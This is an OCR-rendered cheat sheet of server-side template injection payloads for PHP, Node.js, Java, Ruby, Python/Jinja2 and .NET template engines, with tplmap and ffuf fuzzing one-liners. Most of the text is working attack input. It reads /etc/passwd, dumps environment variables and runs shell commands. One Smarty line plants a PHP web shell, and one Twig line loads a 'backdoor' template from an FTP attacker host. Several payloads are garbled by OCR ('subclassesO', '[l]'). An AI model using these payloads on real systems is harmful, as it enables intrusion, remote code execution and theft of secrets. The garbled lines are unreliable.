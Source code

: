 # SSTI-Paylods

# Tool
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'

# Payloads
# https://github.com/payloadbox/ssti-payloads

# Oneliner
# Check SSTI in all param with qsreplace
waybackurls http://target.com | qsreplace "ssti{{9*9}}" > fuzz.txt
ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
# Check in burp for reponses with ssti81

# Generic
${{<%[%'"}}%\.
{% debug %}
{7*7}
{{ '7'*7 }}
{{ [] .class.base.subclassesO }}
{{''.class.mro()[l] .subclassesO}}
for c in [1,2,3] %}{{ c,c,c }}{% endfor %}
{{ [].__class__.__base__.__subclasses__O }}

# PHP Based
{php}print "Hello"{/php}
{php}$s = file_get_contents('/etc/passwd',NULL, NULL, 0, 100); var_dump($s);{/php}
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

# Node.js Backend based 
{{ this }}-> [Object Object]
{{ this.__proto__ }}-> [Object Object]
{{ this.__proto__.constructor.name }}-> Object
{{this.constructor.constructor}}
{{this. constructor. constructor('process.pid')()}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

# Java
${7*7}
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}

# Ruby
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

# Python
{% debug %}
{{settings.SECRET_KEY}}
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}

# Perl
<%= perl code %>
<% perl code %>

# Flask/Jinja2
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

# .Net
@(1+2)
@{// C# code}
